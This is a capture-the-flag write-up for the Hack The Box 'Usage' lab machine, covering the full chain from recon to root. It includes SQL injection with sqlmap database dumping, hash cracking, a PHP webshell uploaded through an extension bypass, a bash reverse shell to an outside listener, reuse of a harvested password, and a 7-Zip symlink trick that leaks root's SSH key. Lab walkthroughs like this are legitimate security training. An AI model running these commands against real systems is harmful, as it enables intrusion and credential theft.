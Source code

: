 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - Blind [SQL Injection](SQL Injection) in password reset  
  - PHP webshell upload via extension bypass in Laravel‑Admin over [HTTP](HTTP)  
  - 7‑Zip wildcard symlink exploit for file read  

**Open Ports:**
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP) 80/tcp  

**Tools:**
- [nmap](nmap)  
- [ffuf](ffuf)  
- [sqlmap](sqlmap)  
- [hashcat](hashcat)  
- [Burp](Burp)  
- [sshpass](sshpass)  
- [nc](nc)  
- [7z](7z)  

---

## Recon 🔍

#### Find live ports
```bash
nmap -p- --min-rate 10000 10.10.11.18
```

#### Service/version detection
```bash
nmap -p 22,80 -sCV 10.10.11.18
```

#### Virtual‑host discovery
```bash
ffuf -u http://10.10.11.18 -H "Host: FUZZ.usage.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
````

---

## Shell as dash 🐚

1. **Confirm blind [SQL Injection](SQL Injection)**

```bash
curl -X POST 'http://usage.htb/forgot-password' -H "Content-Type: application/x-www-form-urlencoded" -d "email=' or 1=1-- -" --trace-ascii reset.request
```

```bash
curl -X POST 'http://usage.htb/forgot-password' -d "email=' or 1=1-- -" > reset.request
    ```
    
2. **Dump database with sqlmap**
    
```bash
sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch --dbs
    ```
    
```bash
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog --tables    
```

```bash
sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog -T admin_users --dump
```
    
3. **Crack the admin hash**
    
```bash
echo "$HASH" > admin.hash
```
    
```
hashcat -m 3200 admin.hash rockyou.txt
```

```php
<?php system($_REQUEST['cmd']); ?>
```


4. **Bypass file‑extension in Laravel‑Admin**
    
    - Upload `0xdf.php.jpg`, intercept in **Burp**, rename to `.php`
        
    - Access shell:
        
```
http://admin.usage.htb/uploads/images/0xdf.php?cmd=id
```
        
5. **Get reverse shell**
    
    ```bash
    nc -lnvp 443
    curl 'http://admin.usage.htb/uploads/images/0xdf.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    ```
    

---

## Shell as xander 👤

1. **Grab Monit creds** from dash’s home:
    
```bash
grep -R "allow admin" /home/dash/.monitrc
# → 3nc0d3d_pa$$w0rd
```
    
2. **Switch user**:
    
    ```bash
    su - xander
    ```
    
    or via [SSH](https://chatgpt.com/c/SSH):
    
    ```bash
    sshpass -p '3nc0d3d_pa$$w0rd' ssh xander@usage.htb
    ```
    

---

## Shell as root 👑

1. **Abuse NOPASSWD sudo on `usage_management`**
    
    ```bash
    cd /var/www/html
    touch @file; ln -fs /root/.ssh/id_rsa file
    sudo /usr/bin/usage_management
    ```
    
2. **Extract private key** from 7‑Zip warnings, clean it, then:
    
    ```bash
    chmod 600 usage-root
    ssh -i usage-root root@usage.htb
    ```
    

---

## Actions Learned 🎓

- Mastered blind [SQL Injection](SQL Injection) with **sqlmap**
- Bypassed extension checks in **Laravel‑Admin** for RCE
- Extracted service creds from **monit** config
- Leveraged wildcard expansion in **7z** via NOPASSWD sudo to leak files
- Chained full path: Recon → User (dash) → Admin (xander) → Root
    

---

## References 🔗

- CVE-2023-24249 – Laravel‑Admin file upload extension bypass
- HackTricks: 7‑Zip wildcard symlink attack
- [Laravel‑Admin GitHub](https://github.com/laravel-admin-extensions/laravel-admin)

https://www.youtube.com/watch?v=cx9Da-PoXG4

https://0xdf.gitlab.io/2024/08/10/htb-usage.html